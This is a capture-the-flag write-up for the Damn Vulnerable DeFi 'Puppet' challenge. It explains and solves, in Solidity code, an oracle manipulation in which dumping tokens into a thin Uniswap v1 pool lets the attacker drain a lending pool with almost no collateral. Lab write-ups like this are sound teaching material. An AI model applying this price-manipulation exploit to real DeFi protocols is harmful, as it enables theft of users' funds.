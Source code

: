 # Puppet CTF Writeup

## Challenge Description
There’s a lending pool where users can borrow Damn Valuable Tokens (DVTs). To do so, they first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There’s a DVT market opened in an old Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Pass the challenge by saving all tokens from the lending pool, then depositing them into the designated recovery account. You start with 25 ETH and 1000 DVTs in balance.


Rescue all funds from the pool and deposit them into the designated recovery account.

## The Exploit Strategy
The Puppet contract provides borrow functionality but to get the price it depended on Uniswap reserves and depending on uniswap reserve is vuln. so we gonna take eth by provding tokens and manipulate reserves of token. Here in pool token reserve has increased and eth has been reduced so with little bit of with we can drain all of token

Here’s how the exploit unfolds step by step:

1. Dumping DVT Tokens: The attacker begins by dumping a large quantity of DVT tokens into the Uniswap liquidity pool. This sudden influx dramatically increases the token supply in the pool, causing the price of DVT to plummet.
2. Changing Price Perception: With the DVT price significantly depressed due to the inflated token supply, the PuppetPool contract now perceives DVT as being nearly worthless.
3. Minimal Collateral: The attacker then deposits a small amount of ETH as collateral in the PuppetPool. Because the contract believes that DVT is almost worthless — thanks to the manipulated Uniswap price — it doesn’t require a substantial ETH deposit.
4. Borrowing Tokens: With minimal ETH collateral, the attacker can borrow or effectively steal all the DVT tokens from the PuppetPool. The contract’s flawed price perception facilitates this.

## Solution

```solidity
    function test_puppet() public checkSolvedByPlayer {
        // uniswapV1Exchange.ethToTokenSwapOutput
        // (1e18, block.timestamp * 2);
        token.approve(address(uniswapV1Exchange), PLAYER_INITIAL_TOKEN_BALANCE);
        uniswapV1Exchange.tokenToEthSwapInput(PLAYER_INITIAL_TOKEN_BALANCE, 1, block.timestamp * 2);
        Attack attacker = new Attack(recovery, address(lendingPool), address(token));
        (bool res,) = address(attacker).call{value: address(player).balance}("");
        require(res, "Attack failed");
        attacker.attack();
    }
```
```solidity
contract Attack {
    address receiver;
    PuppetPool lendingPool;
    DamnValuableToken token;

    constructor(address _receiver, address _lendingPool, address _token) {
        receiver = _receiver;
        lendingPool = PuppetPool(_lendingPool);
        token = DamnValuableToken(_token);
    }

    function attack() public {
        // Borrow 100 tokens
        lendingPool.borrow{value: address(this).balance}(token.balanceOf(address(lendingPool)), address(this));
        token.transfer(receiver, token.balanceOf(address(this)));
    }

    receive() external payable {
        // Deposit the ETH received
        // lendingPool.deposit{value: msg.value}();
    }
}
```




## References
- [Solution Link](https://docs.soliditylang.org/)
- [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/)

 forge test --mp test/selfie/Selfie.t.sol -vvvv




